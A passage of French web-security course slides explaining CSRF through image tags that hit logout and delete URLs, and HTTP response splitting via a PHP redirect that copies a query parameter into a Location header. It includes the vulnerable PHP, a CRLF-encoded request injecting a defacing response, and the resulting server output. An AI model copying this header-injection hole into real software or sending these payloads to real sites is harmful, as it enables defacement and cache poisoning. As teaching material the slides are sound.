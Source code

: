    !html
    <IMG SRC='/user/logout' /> <!-- dans un commentaire c'est #?!^" -->
    <IMG SRC='/user/delete/42' /> <!-- pour l'admin... -->

--------------------------------------------------------------------------------

## Injection - HTTP

En exemple en rapport avec les techniques de **poisoning**, que l'on classifie dans le HTTP Response splitting :

    !php
    <?php
    // Set the Location Header for our redirect 302 page
    header ("Location: " . $_GET['page']); ?>

La requête contient alors du contenu qui contient lui-même des entêtes HTTP :

    !html
    GET http://testsite.com/redir.php?site=%0d%0aContent-
    Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
    Modified:%20Mon,%2027%20Oct%202019%2014:50:18%20GMT%0d%0aConte
    nt-Length:%2020%0d%0aContent-
    Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*

Cet exemple est difficile à comprendre, mais c'est un bon exercice.
Essayez de deviner ce qui arrive dans la réponse...

--------------------------------------------------------------------------------

## Injection - HTTP

La réponse ressemblera à ceci :

    HTTP/1.1 302 Redirect
    Date: Mon, 09 Jun 2014 20:58:36 GMT
    Server: Apache
    Vary: Accept-Encoding, Cookie
    Connection: Keep-Alive
    Content-Type: text/html; charset=UTF-8
    Location:
    Content-Length: 0
    
    HTTP/1.1 200 OK
    LastModified: Mon, 27 Oct 2019 14:50:18 GMT
    Content-Length: 20
    Content-Type: text/html
    
    <html>deface!</html>
